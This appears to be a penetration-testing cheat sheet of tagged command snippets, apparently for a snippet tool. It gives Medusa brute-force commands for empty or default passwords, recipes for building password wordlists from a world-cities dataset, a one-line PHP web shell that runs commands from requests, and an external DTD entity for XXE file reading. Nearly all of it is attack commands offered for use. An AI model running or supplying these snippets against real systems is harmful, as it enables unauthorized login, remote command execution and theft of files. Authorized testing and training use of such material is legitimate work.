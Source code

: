 ## Login Brute Forcing - medusa - Testing for Empty or Default Passwords
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -h <target> -U <usernames-txt> -e ns -M <service_name>
```
## Login Brute Forcing - list open ports and listening services
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
netstat -tulpn | grep LISTEN
```

## Broken Auth - filters to match policy
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
grep '[[:upper:]]' /<wlist> | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

## Broken Auth - get world cities wordlist
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
wget https://raw.githubusercontent.com/datasets/world-cities/refs/heads/main/data/world-cities.csv
```

## Broken Auth - extract city wordlists
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

## Broken Auth - extract specific country cities wordlists
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
cat world-cities.csv | grep <Germany> | cut -d ',' -f1 > <country>_cities.txt
```

## Web Attacks - XXE - webshell - hosted (then host it on a webserver)
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
```

## Web Attacks - XXE - join entity file - hosted (then host it on a webserver)
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```
